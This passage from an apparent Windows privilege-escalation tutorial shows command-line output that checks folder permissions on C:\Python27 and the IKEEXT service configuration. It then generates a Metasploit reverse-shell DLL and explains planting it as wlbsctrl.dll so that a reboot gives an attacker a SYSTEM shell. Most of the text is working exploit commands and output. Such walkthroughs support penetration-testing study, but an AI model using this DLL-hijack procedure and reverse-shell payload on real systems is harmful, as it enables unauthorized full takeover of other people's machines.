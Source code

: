 READ_CONTROLC:\Users\user1\Desktop> cacls "C:\Python27"C:\Python27 BUILTIN\Administrators:(ID)F

BUILTIN\Administrators:(OI)(CI)(IO)(ID)F
NT AUTHORITY\SYSTEM:(ID)F
NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(ID)F
BUILTIN\Users:(OI)(CI)(ID)R
NT AUTHORITY\Authenticated Users:(ID)C

NT AUTHORITY\Authenticated Users:(OI)(CI)(IO)(ID)C**# Before we go over to action we need to check the status of the IKEEXT service. In this case we can see

it is set to "AUTO_START" so it will launch on boot!**C:\Users\user1\Desktop> sc qc IKEEXT[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: IKEEXT
TYPE : 20 WIN32_SHARE_PROCESS
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\Windows\system32\svchost.exe -k netsvcs
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : IKE and AuthIP IPsec Keying Modules
DEPENDENCIES : BFE
SERVICE_START_NAME : LocalSystem

Now we know the necessary conditions are met we can generate a malicious DLL and pop a shell!

root@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' O Name: Windows Command Shell, Reverse TCP Inline

Module: payload/windows/shell_reverse_tcp
Platform: Windows
Arch: x86
Needs Admin: No
Total size: 314
Rank: Normal
Provided by:
vlad902 <vlad902@gmail.com>
sf <stephen_fewer@harmonysecurity.com>
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh, thread, process, none
LHOST 127.0.0.1 yes The listen address
LPORT 9988 yes The listen port
Description:

Connect back to attacker and spawn a command shellroot@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' D > /root/Desktop/evil.dllCreated by msfpayload (http://www.metasploit.com).

Payload: windows/shell_reverse_tcp
Length: 314
Options: {"lhost"=>"127.0.0.1", "lport"=>"9988"}

After transferring the DLL to our target machine all we need to do is rename it to wlbsctrl.dll and move it to "C:\Python27". Once this is done we need to wait patiently for the machine to be rebooted (or we can try to force a reboot) and we will get a SYSTEM shell.
